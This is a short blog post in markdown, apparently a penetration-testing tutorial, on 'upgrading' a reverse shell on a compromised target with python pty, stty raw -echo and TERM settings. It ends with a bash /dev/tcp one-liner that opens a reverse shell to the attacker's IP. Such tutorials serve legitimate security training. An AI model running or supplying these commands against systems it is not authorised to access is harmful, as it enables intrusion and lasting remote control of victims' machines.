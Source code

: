 ```yaml
---
layout: single
title:  "Upgrading your reverse shell"
author_profile: true
toc: true
toc_label: "Table of Contents"
toc_icon: "fas fa-book-open"
toc_sticky: true
header:
    image: /assets/images/shells.jpeg
---
```


> After we have gotten our reverse shell, it will have limitations such as no auto-completions and messy file listings. Here is how we can make our shell better inside our target's system:

Upgrading and stabilizing your shell enables you to type in your commands better. There are several ways to upgrade your shell once you are in a target machine.

## First way

Assuming you are running bash, in your reverse shell:

```
python3 -c "import pty; pty.spawn('/bin/bash')"
```

Press on your keyboard: `Ctrl + Z`
Press on your keyboard: `Enter`

On your local host:

```
stty raw -echo
fg
```
Press on your keyboard: `Enter` (twice)

In the reverse shell:
```
export TERM=xterm
```

## Second way
Check the version of python the target system is running in using:
`which python` or `which python3`

Next,

```
python3 -c 'import pty;pty.spawn("/bin/bash")'  //Upgrade to tty
Ctrl + Z                                        //Background the process
stty raw -echo
fg + Enter
```

Subsequently, turn your unstable shell into a stable one via:
```
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
```
\
\
Thank you for reading!